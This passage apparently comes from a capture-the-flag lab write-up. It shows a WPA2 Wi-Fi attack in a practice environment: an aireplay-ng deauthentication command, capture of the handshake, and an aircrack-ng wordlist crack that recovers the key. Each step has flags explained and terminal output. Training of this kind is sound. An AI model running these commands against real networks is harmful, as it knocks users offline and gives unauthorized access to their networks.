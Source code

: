 We can do this with:

`sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2`

`-0` flag is for deauth attack
`1` is num of deauths to send
`-a` is BSSID of the ap
`-c` is client of BSSID to deauth

```shell
glitch@wifi:~$ sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2
19:29:37  Waiting for beacon frame (BSSID: 02:00:00:00:00:00) on channel 6
19:29:38  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:01:00] [ 0| 0 ACKs]
```

Now back in our first terminal, we will see the WPA handshake on the top-right of our output.
`WPA handshake: 02:00:00:00:00:00`

```shell
 CH  6 ][ Elapsed: 1 min ][ 2024-11-02 19:30 ][ WPA handshake: 02:00:00:00:00:00 

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 02:00:00:00:00:00  -28 100      631        8    0   6   54   WPA2 CCMP   PSK  MalwareM_AP  

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 02:00:00:00:00:00  02:00:00:00:01:00  -29    1 - 5      0      140  EAPOL
```

In the second terminal we can use that captured handshake  to attempt to crack it.

`sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*cap`

`-a 2` indicates the wpa/wpa2 attack mode
`-b` bssid of ap
`-w` wordlist path

And lastly the files containing the handshake.

```shell
glitch@wifi:~$ sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*cap
Reading packets, please wait...
Opening output-file-01.cap
Read 276 packets.
1 potential targets

                               Aircrack-ng 1.6 

      [00:00:01] 304/513 keys tested (217.04 k/s) 

      Time left: 0 seconds                                      59.26%

                 KEY FOUND! [ REDACTED ]


      Master Key     : B6 53 9A 71 8C C4 74 5F E3 26 49 82 37 74 65 09 
                       BE C5 62 CE 43 C4 68 A7 B4 8F 8C E6 98 EE 1C CB 

      Transient Key  : 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

      EAPOL HMAC     : C8 8E D5 F4 B4 5A 1D C4 6C 41 35 07 68 81 79 CD
```
